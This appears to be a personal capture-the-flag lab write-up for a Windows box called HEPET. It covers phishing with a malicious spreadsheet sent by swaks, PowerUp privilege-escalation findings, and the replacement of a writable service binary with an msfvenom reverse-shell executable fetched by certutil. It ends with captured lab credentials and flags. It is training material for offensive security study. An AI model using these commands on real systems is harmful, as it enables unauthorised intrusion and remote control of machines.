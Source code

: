 

```
sudo swaks --to mailadmin@localhost --from jonas@localhost --header 'Subject: Please check this spreadsheet' --header-X-Test "Header" --server 192.168.171.140  --attach @yess.ods
```

the @ next to file actually sent the file wtf how would we know that

## PrivEsc

Ela Arwel

```
DefaultUserName      : Ela Arwel
DefaultPassword      : LadderWheelGallon443
Check                : Registry Autologons
```

`. .\PowerUp.ps1; Invoke-AllChecks`

```
ServiceName                     : VeyonService
Path                            : C:\Users\Ela Arwel\Veyon\veyon-service.exe
ModifiableFile                  : C:\Users\Ela Arwel\Veyon\veyon-service.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : HEPET\Ela Arwel
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'VeyonService'
CanRestart                      : False
Name                            : VeyonService
Check                           : Modifiable Service Files
```

#### Replacing Current Service with our Malicious Exe

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.233 LPORT=1338 -f exe -o rev.exe

PS C:\programdata> certutil -urlcache -f http://192.168.45.233/rev.exe rev.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\programdata> move "C:\Users\Ela Arwel\Veyon\veyon-service.exe" "C:\Users\Ela Arwel\Veyon\veyon-service.exe.bak"
PS C:\programdata> move rev.exe "C:\Users\Ela Arwel\Veyon\veyon-service.exe"
PS C:\Users\Ela Arwel\Veyon> shutdown /r /t 0
```

## Loot

### Creds

`jonas:SicMundusCreatusEst`

`Ela Arwel:LadderWheelGallon443`

### Flags

`local:4d33de9f2bbb4e5fecb571a9bca37c4e`

`proof:a8c6cef912cd3244b302984b4bf09b0c`

## Proof

{% embed url="https://www.atmail.com/blog/imap-101-manual-imap-sessions/" %}
